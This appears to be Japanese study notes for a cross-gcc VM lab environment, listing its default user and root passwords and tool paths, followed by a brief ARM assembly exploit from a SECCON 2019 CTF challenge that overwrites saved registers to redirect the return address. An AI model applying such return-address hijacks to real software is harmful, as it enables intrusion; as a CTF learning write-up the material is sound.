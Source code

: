# cross-gcc

## 開発環境
熱血！／大熱血！ アセンブラ入門  
開発環境のＶＭイメージ
http://kozos.jp/vmimage/burning-asm.html

### ID/PASS
user/progtooluser
root/progtoolroot


### tool
/usr/local/cross-gcc494/bin 配下にobjdumpなどのツールが入っている
例えば arm-elf用の toolは `ls /usr/local/cross-gcc494/bin/arm-elf*` 

objdump なら
```
/usr/local/cross-gcc494/bin/arm-elf-objdump -d arm-elf.x | less
```


## ARMのexploit例
問題・解答例は以下に保管。 https://github.com/yyamada12/ctfs/tree/master/seccon2019final 

ctfs/seccon2019final/solve/read-password/arm-elf.S

```
.org  0x1c10 - 16 - 256 - 4 - 28
```
org: バイナリをここに配置してくださいという命令

```
_start:

.long 0x61626364
.long 0
.long 0
.long 0
```
16バイトはまず適当に埋める

```
.long 0 /* FP -> FP */
.long 0x1c00 /* IP -> SP */
.long _code /* LR -> PC */
.long 0 /* PC -> discard */
```
戻りアドレスを設定する (`_code`)


<!--stackedit_data:
eyJoaXN0b3J5IjpbMjYwMTEyNjIzLDYzMTIxNTU4OSwtOTQ3ND
I5M119
-->